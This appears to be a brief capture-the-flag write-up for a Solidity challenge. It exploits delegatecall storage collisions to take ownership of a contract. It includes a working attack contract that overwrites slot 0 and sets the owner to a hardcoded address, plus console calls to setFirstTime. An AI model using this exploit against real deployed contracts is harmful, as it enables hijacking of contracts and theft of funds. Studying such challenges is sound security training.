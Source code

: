 ## Description
Obtain the address in uint using getUintAddress to pass this number as the address of a contract that will be overwritten in storage due to delegatecall in slot 0 and then be a callable contract. 
```
await contract.setFirstTime('1081877567106236786885070956901106239420211629883')
```
```
contract Attack{
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
        owner = 0x8c5E11D36C3b42d258eB2DDB493e00A6d041fB69;
    }

    function getUintAddress(address addr) public pure returns(uint256){
        return uint256(uint160(addr));
    }
}
```
```
await contract.setFirstTime('1081877567106236786885070956901106239420211629883')
```